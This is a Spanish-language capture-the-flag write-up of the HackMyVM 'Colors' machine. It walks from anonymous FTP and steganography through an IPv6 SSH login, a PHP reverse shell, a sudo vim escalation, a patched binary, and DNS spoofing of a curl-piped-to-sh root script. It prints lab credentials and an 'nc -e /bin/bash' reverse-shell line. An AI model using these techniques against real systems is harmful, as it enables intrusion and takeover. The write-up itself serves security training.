










Red Team & Ctf Pl4yer
HackMyVm - Colors
Autor: Pablo

Escaneo de puertos
❯ nmap -p- -T5 -v -n --open 10.10.1.49
PORT STATE SERVICE
21/tcp open ftp
80/tcp open http
Escaneo de servicios
nmap -sVC -p 21,80 10.10.1.49
PORT STATE SERVICE VERSION
/tcp open ftp vsftpd 3.0.3
ftp-syst:
STAT:
FTP server status:
Connected to ::ffff:10.10.1.40
Logged in as ftp
TYPE: ASCII
No session bandwidth limit
Session timeout in seconds is 300
Control connection is plain text
Data connections will be plain text
At session startup, client count was 6
vsFTPd 3.0.3 - secure, fast, stable
End of status
ftp-anon: Anonymous FTP login allowed (FTP code 230)
-rw-r--r-- 1 1127 1127 0 Jan 27 22:45 first
-rw-r--r-- 1 1039 1039 0 Jan 27 22:45 second
-rw-r--r-- 1 0 0 290187 Feb 11 16:35 secret.jpg
-rw-r--r-- 1 1081 1081 0 Jan 27 22:45 third
/tcp open http Apache httpd 2.4.54 ((Debian))
http-title: Document
http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Unix
Me conecto al FTP y descargo secret.jpg.
❯ ftp 10.10.1.49
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 0 0 4096 Feb 20 15:59 .
drwxr-xr-x 2 0 0 4096 Feb 20 15:59 ..
-rw-r--r-- 1 1127 1127 0 Jan 27 22:45 first
-rw-r--r-- 1 1039 1039 0 Jan 27 22:45 second
-rw-r--r-- 1 0 0 290187 Feb 11 16:35 secret.jpg
-rw-r--r-- 1 1081 1081 0 Jan 27 22:45 third
ftp> get secret.txt
Uso la herramienta steegseek y encuentro un archivo de texto con el nombre more_secret.txt.
❯ stegseek secret.jpg
[i] Found passphrase: "Nevermind"
[i] Original filename: "more_secret.txt".
[i] Extracting to "secret.jpg.out".Archivo secret.jpg.out.
<-MnkFEo!SARTV#+D,Y4D'3_7G9D0LFWbmBCht5'AKYi.Eb-A(Bld^%E,TH.FCeu*@X0)E$/g+)2+EV:;Dg*=BAnE0-BOr;qDg-#3DImlA+B)]_C`m/1@2(@W-9>+@BRZ@q[!,BOr<.Ea`Ki+EqO;A9/l-DBO4CF`JUG@;0P!/g*T-E,9H5AM,)nEb/Zr/g*PrF(9-3ATBC1E+s3*3`'O.CG^*/BkJ\: Está codificado base85, una vez decodificado obtengo en siguiente mensaje y unas credenciales al final.
Twenty years from now you will be more disappointed by the things that you didn't do than by the ones you did do. So throw off the bowlines. Sail away from the safe harbor. Catch the trade winds in your sails. Explore. Dream. Discover. pink:Pink4sPig$$.
Me conecto al FTP de nuevo con el usuario pink.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------ 2 1127 1127 4096 Feb 11 19:55 green
drwx------ 3 1000 1000 4096 Feb 11 19:18 pink
drwx------ 2 1081 1081 4096 Feb 20 16:07 purple
drwx------ 2 1039 1039 4096 Feb 11 19:56 redEntro en la carpeta pink por que en las demás carpetas no tenemos permiso.
drwx------ 3 1000 1000 4096 Feb 11 19:18 .
drwxr-xr-x 6 0 0 4096 Jan 27 22:44 ..
lrwxrwxrwx 1 1000 1000 9 Jan 27 20:30 .bash_history -> /dev/null
-rwx------ 1 1000 1000 220 Jan 27 20:22 .bash_logout
-rwx------ 1 1000 1000 3526 Jan 27 20:22 .bashrc
-rwx------ 1 1000 1000 807 Jan 27 20:22 .profile
drwx------ 2 1000 1000 4096 Feb 11 19:55 .ssh
-rwx------ 1 1000 1000 3705 Feb 11 19:18 .viminfo
-rw-r--r-- 1 1000 1000 23 Feb 11 16:59 note.txtMe llama la atención la carpeta .ssh porque en el reconocimiento de puertos no me detectó el puerto 22. Así que vuelvo a escanear los puertos sin la flag --open.
❯ nmap -p- -T5 -v -n 10.10.1.49
PORT STATE SERVICE
21/tcp open ftp
22/tcp filtered ssh
80/tcp open httpEncuentra el puerto 22 filtrado, está filtrado para IPv4 lo podemos abrir mediante la técnica de Port Knocking pero en este writeup accederé al sistema por IPv6. Hago un barrido con ping6 en busca de direcciones IPv6 y encuentro la siguiente dirección:
❯ ping6 -c2 -n -I enp0s3 ff02::1
64 bytes from fe80::a00:27ff:fe06:f767%enp0s3: icmp_seq=1 ttl=64 time=0.607 ms
Antes de conectarme por ssh, he creado un archivo authorized_keys dentro del archivo he copiado mi id_rsa.pub de mi máquina y luego lo he subido a la carpeta .ssh del usuario pink a través del servidor ftp
Me conecto al sistema a través del servicio SSH.
ssh -6 pink@fe80::a00:27ff:fe06:f767%enp0s3
pink@color:~$ id
uid=1000(pink) gid=1000(pink) groups=1000(pink),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
Leyendo el archivo .viminfo
observo que ha habido movimiento en la ruta /var/www/html me desplazo a ella y observo que puedo crear archivos, creo un archivo php malicioso para obtener una shell. Aquí abajo te dejo el enlace de la reverse-shell que he usado:
http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
Desde una terminal uso curl para mandar una petición al fichero php malicioso.
❯ curl -s 10.10.1.49/noname.php
Obtengo la shell como usuario www-data.
❯ nc -lvp 1337
listening on [any] 1337 ...
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
pink pts/0 fe80::a999:aaa9: 15:55 45.00s 0.03s 0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Después de hacer un tratamiento para la tty lanzo un sudo -l.
www-data@color:/home$ sudo -l
User www-data may run the following commands on color:
(green) NOPASSWD: /usr/bin/vim
Para pivotar del usuario www-data al usuario green he usado el recurso gtfobins:
sudo -u green vim -c ':!/bin/bash'
Como usuario green lanzo de nuevo un ls y luego un cat al fichero note.txt.
green@color:~$ ls -la
total 44
drwx------ 2 green green 4096 Feb 11 19:55 .
drwxr-xr-x 6 root root 4096 Jan 27 22:44 ..
lrwxrwxrwx 1 root root 9 Feb 11 19:55 .bash_history -> /dev/null
-rwx------ 1 green green 220 Jan 27 22:44 .bash_logout
-rwx------ 1 green green 3526 Jan 27 22:44 .bashrc
-rwx------ 1 green green 807 Jan 27 22:44 .profile
-rw-r--r-- 1 root root 145 Feb 11 16:42 note.txt
-rwxr-xr-x 1 root root 16928 Feb 11 19:29 test_4_green
green@color:~$ cat note.txt
You've been working very well lately Green, so I'm going to give you one ltest. If you pass it I'll give you the password for purple.
-root
Lanzo test_4_all para ver de que se trata.
green@color:~$ ./test_4_green
Guess the number im thinking: 1337
Nope, sorryTenemos que adivinar el número para que nos de la contraseña de purple, para ello usaré radare para analizar el binario y parchear la zona donde nos pide que introduzcamos un número para que al poner cualquier número lo acepte como válido y nos muestre la contraseña para purple.
Abro el binario con permisos de escritura.
❯ r2 -w ./test_4_greenPulso V y depués enter.

Nos muestra lo siguiente.

Pulso p y después enter.

Se puede observar que hay unas cadenas de texto entendibles para humanos.


Con las flechas "arriba y abajo" nos movemos hasta la dirección 0x00001257 es importante que la dirección 0x00001257 esté marcada en amarillo como se ve en la imagen en el "recuadro" amarillo.

Pulsamos shift+a y escribimos je 0x12cb.

Pulsamos enter, guardamos cambios Y.

Para salir del programa: q, q, enter.
Lanzo ./test_4_all y le pongo cualquier número.
❯ ./test_4_green
Guess the number im thinking: 12
Correct!! Here is the pass:
p************Una vez conectado como purple obtengo la flag de user.
purple@color:~$ cat user.txt
(:**_******:)Archivo for_purple_only.
purple@color:~$ cat for_purple_only.txt
As the highest level user I allow you to use the supreme ddos attack script.
El usuario purple puede ejecutar /attack/ddos.sh como root
purple@color:~$ sudo -l
Matching Defaults entries for purple on color:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User purple may run the following commands on color:
(root) NOPASSWD: /attack_dir/ddos.sh
El archivo ddos.sh hace una petición con curl al dominio masterddos.hmv y luego lanza attack.sh
#!/bin/bash
/usr/bin/curl http://masterddos.hmv/attack.sh | /usr/bin/sh -pr00t
Mediante la técnica DNS Spoofing simularemos ser el dominio masterddos.hmv para que el archivo ddos.sh funcione correctamente y nos devuelva una shell.
Con ettercap se puede hacer DNS Spoofing y hay mucha información de como se configura para realizar el ataque con lo cual me saltaré estos pasos.
En la máquina atacante, creo el archivo attack.sh en /var/www/html y le pongo un netcat apuntando a mi dirección ip.
#!/bin/bash
nc -e /bin/bash 10.10.1.40 4444Levanto el servicio apache, dejo un listener con el puerto 4444 a la escucha, inicio el DNS Spoofing con ettercap y finalmente lanzo el script ddos.sh

Obtengo la shell.
❯ nc -lvp 4444
listening on [any] 4444 ...
10.10.1.49: inverse host lookup failed: Unknown host
connect to [10.10.1.40] from (UNKNOWN) [10.10.1.49] 33018
id
uid=0(root) gid=0(root) groups=0(root)
Flag de root.
Y aquí termina Colors la primera y maravillosa máquina del sr Pablo.